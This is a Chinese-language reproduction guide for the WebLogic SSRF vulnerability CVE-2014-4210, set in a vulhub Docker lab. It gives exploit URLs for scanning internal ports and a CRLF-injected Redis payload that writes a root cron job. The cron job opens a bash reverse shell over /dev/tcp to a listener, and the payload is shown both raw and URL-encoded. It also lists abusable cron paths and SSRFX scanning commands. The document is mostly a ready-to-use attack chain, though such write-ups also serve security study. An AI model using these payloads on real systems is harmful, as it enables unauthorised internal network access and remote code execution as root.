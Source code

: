 # Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

```
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225140.png)

## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225365.png)



使用 payload 进行探测, 将探测的位置写在 operator参数中

注意需要知道内网 IP

```plain
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225296.png)

存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 [**http://xxx.xxx.xxx.xxx:7000**](http://xxx.xxx.xxx.xxx:7000) 这样不存在的则报错内容如下图

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225336.png)



通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225290.png)



如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**,

注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225298.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的

- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225535.png)